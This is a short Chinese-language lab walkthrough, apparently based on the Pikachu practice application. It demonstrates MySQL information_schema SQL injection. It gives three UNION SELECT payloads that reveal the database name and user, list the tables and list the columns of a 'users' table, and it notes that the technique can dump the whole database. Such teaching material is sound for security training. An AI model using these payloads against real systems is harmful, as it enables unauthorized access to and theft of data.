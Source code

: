 **information_schema注入**

information_schema 数据库是 MySQL 系统自带的数据库。其中保存着关于 MySQL 服务器所维护的所有其他数据库的信息。通过 information_schema 注入，我们可以将整个数据库内容全部窃取出来。接下来是对 information_schema 注入的演示。
首先同之前的步骤，使用 order by 来判断查询的字段。先找出数据库的名称，输入 `a' union select database(),user(),4#%` 得到反馈，判断数据库名称为 pikachu。

![image](../../../img/渗透/实验/pikachu/31.png)

获取表名，输入：`a' union select table_schema,table_name,2 from information_schema.tables where table_schema='pikachu'#`

![image](../../../img/渗透/实验/pikachu/32.png)

获取字段名，输入：`a'union select table_name,column_name,2 from information_schema.columns where table_name='users'#%`

![image](../../../img/渗透/实验/pikachu/33.png)

